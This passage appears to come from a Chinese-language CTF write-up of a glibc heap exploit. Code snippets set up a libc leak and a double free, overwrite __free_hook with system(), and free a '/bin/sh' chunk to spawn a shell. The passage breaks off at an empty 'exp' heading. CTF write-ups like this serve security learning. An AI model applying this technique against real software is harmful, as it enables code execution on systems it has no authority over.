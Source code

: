 [![](assets/1701612363-782932d5d4d0f73693841a99cee89395.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212501-0345e06e-19a5-1.png)  
先泄露个 libc 基地址

```plain
delete(7)
```

[![](assets/1701612363-251315bc6226ffe444bad3bc0717c156.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212525-11bfaf8a-19a5-1.png)  
能看到合并的 chunk

[![](assets/1701612363-76940cdce538abe7d1e57d08feb67dfd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212534-171ce830-19a5-1.png)

[![](assets/1701612363-c179c9fb74f7fe0708801037ef2b084f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212540-1ade2452-19a5-1.png)

```plain
add(10,0x80,'a')
```

留下一个空间

[![](assets/1701612363-ec4b1a566024f5cbcdad518dadae2edb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212557-24a67688-19a5-1.png)

```plain
delete(8)
```

```plain
double free
```

[![](assets/1701612363-c1c3a23a5e1d224caeb8a69bfea30e61.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212611-2d08693a-19a5-1.png)

```plain
payload='a'*0x80+p64(0)+p64(0x91)+p64(__free_hook)
add(11,0xa0,payload)
```

直接申请一个较大的 chunk 去覆盖就可以了

[![](assets/1701612363-16ca4bea82132d5b609d0c119f0f6e5b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212655-4774ba44-19a5-1.png)

```plain
add(12,0x80,'/bin/sh\x00')
add(13,0x80,p64(system_addr))
delete(12)
```

申请写入 '/bin/sh\\x00' ，改 free\_hook 为 system，free 一下直接 getshell

[![](assets/1701612363-3021922aff9232cf7d3f170ac1af0ac1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230703212719-560b63dc-19a5-1.png)

### exp
